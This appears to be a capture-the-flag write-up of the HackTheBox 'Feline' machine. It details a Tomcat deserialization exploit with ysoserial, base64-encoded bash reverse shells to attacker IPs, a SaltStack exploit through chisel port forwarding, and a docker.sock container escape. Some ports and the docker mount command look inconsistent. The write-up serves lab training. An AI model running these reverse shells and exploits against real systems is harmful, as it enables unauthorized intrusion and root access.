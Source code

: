 ```yaml
---
title: HackTheBox Feline
published: true
---
```


## 0x0 Introduction
The first **hard** box that I have ever pwned, so lets dive right into it. This box involved a java deserialization attack to first get an inital foothold, once we are on it we use a known exploit in `saltstack` to become root of docker container, now you might wonder: Why would we want to become root of a docker-container? Well this docker container also had a miss configuration issue which then allowed us to mount files from the host system, such as the root.txt, into the container.
![image](/assets/images/feline/feline-pwn.png "Feline has been pwned")

## 0x1 How not to handle error messages

As always I start with an nmap scan, 

```
$ nmap -sC -sV -oN recon/nmap-default 10.10.10.205
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 08:24 GMT
Nmap scan report for feline.htb (10.10.10.205)
Host is up (0.39s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


if we look at the website, running on port 8080, we see that this is some kind of malware analysis engine, called Virusbucket, and that we can upload files. 

![image](/assets/images/feline/feline-virusbucket.png "Feline Virusbucket")

if we capture the HTTP request for the file-upload, you can use a proxy like burp or ZAP for this, then you will see this:

![image](/assets/images/feline/feline-file-upload.png "Feline Upload")

But if we replace the filename here with some nonsense, then we can error from the application in which it leaks the location that our files are being upload to:

![image](/assets/images/feline/feline-upload-error.png "Feline Upload Error")

Which is some really useful information because if we can find a way to interact with the files that we have uploaded, through a tomcat vulnerability for example, then we need to know where to look for our uploaded files.

## 0x2 Cuz there is always a tomcat vulnerability

Since it's tomcat and we now that it's version 9.0.27 I, like most people solving this box probably, looked for a vulnerability in that found this blogpost: https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and the CVE in question is: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484.  
If you are solving this box after it has retired and are following along with this post of mine I highly suggest that you go and read the "redtimmy" post, it was well written and to the point. 
The whole point of this exploit is that, if we can get a serialized object on the disk, which we can by simply uploading it, we can use a path traversal vulnerability in the Session-Cookie to get tomcat to deserialize it, which in turn can give us code execution on the box.  
Since we know that our upload files go to `/opt/samples/uploads/` we can set our `JSESSIONID` to `../../../../../../../opt/samples/uploads/the-file-that-we-have-uploaded`  
To create such a serailized object we use `ysoserial` which you can find here: https://github.com/frohoff/ysoserial  
The error message of the File upload had also told us that this uses apache.org.commons which is a libarry for all sorts of common deserializations. Knowing that we can use `ysoserial` with the `CommonCollections4`.  

First we create our reverse shell command and encode it with base64 to avoid spacing errors

```
echo 'bash -i >& /dev/tcp/tun0/4141 0>&1' | base64
```
Then we use ysoserial to prepare our exploit, notice that we use the {} bash syntax to, again, avoid spaces.
```
java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}" > exploit.session
```

Upload the file either through the website or by using `curl`

```
curl 'http://10.10.10.205:8080/upload.jsp' -F "image=@exploit.session"
```

and use netcat to listen for incomming connections:

```
nc -lvnp 9009
listening on [any] 9009 ...
```

Now send another request with the malformed cookie to execute the payload

```
curl 'http://10.10.10.205:8080/upload.jsp' -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/exploit"
```

## 0x3 Why so salty?

Now that we are on the host we discover that port 4005 and 4006 are open, these ports are, by default, used by saltstack. Saltstack is an infrastructure management software but for this box we don't need to know much about how it acctually works. What we do need to know though is that there was a very recent vulnerabily in it. If you wanna read more details about the vulnerability you can go here: https://www.helpnetsecurity.com/2020/05/04/saltstack-salt-vulnerabilities/  
Otherwise we are going straight to the exploit which can be found here: https://www.exploit-db.com/exploits/48421  
If we are gonna try to run this on the victim maschine we are going to run into an issue, which is that the `salt` python module is not installed on the box. 

```
$ python3 exploit.py 
Traceback (most recent call last):
  File "exploit.py", line 16, in <module>
    import salt
ModuleNotFoundError: No module named 'salt'
```

## 0x4 Port forwarding to the rescue

So since the saltstack ports are on only listening on localhost, we cannot use the exploit from our box directly but since we are already on the box we can use a programm called `chisel` to do port forwarding and thus make the saltstack accessible from our host maschine.  
First, to get chisel on the victim maschine, go download it from https://github.com/jpillora/chisel/releases and then you can simply use the python http server to transfer it to the box.

```
$ python3 -m http.server
```

Use wget to download chisel on the victim maschine.

```
$ wget http://10.10.16.11:8000/chisel
```

Now we forward some ports as follows:

```
./chisel client 10.10.16.11:5566 R:4506:127.0.0.1:4506
```

and 

```
./chisel server -p 5566 --reverse
```

And now we can use the exploit on our own maschine against localhost, this will then be forwarded to the victim. We want to get a new shell here so lets first setup netcat again

```
nc -lvnp 5577
```

With that running we can finally use the exploit and get a new shell on the box.

```
python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.43/5577 0>&1"'
```

If everything has worked correctly here, we are `root`, yay! But it's still to early to celebrate, because we are root on a docker container, not the box itself. So we went from being a normal user on the box, to being root in docker container. That would under normal circumstances be considered a downgrade since being root of the container does not give us any more access but let's see...

## 0x5 The great docker escape

The first thing I noticed inside this container was a file called "todo.txt" inside the home directroy of the root user 

```
cat todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

On top of that I also noticed that the history file was not empty, it contained a lot of commands but one seemed particullarly interessting to me:

```
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

If I go ahead and run this one myself we get the following output:

```
root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
<t /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

From that we know that the container we are in is called `sandbox`. We are now able to copy the docker binary from the victim maschine into the docker-container. With our tomcat shell on the box we execute the following commands:

```
cd tmp
cp /usr/bin/docker .
python3 -m http.server 9009
```

Next, in the docker-container we download the docker-binary and make it executeable:

```
wget http://172.17.0.1:9001/docker
chmod +x docker
```

With this we can copy contents from the victim maschine into the docker-container using the following command (inside docker):

```
./docker run -v /:root/:root -it sandbox
```

And we are done, we are now able to access the root flag with a simple `cat root/root.txt`

## 0x6 Closing Words

This was the first `hard` box that I have ever owned and I learned a lot from it, the privilege escalation from normal user to root of docker container was a nice twist that we have never before seen on any other box (as far as I know) and I learned a lot from that. My respect to the creators of this awesome challenge.




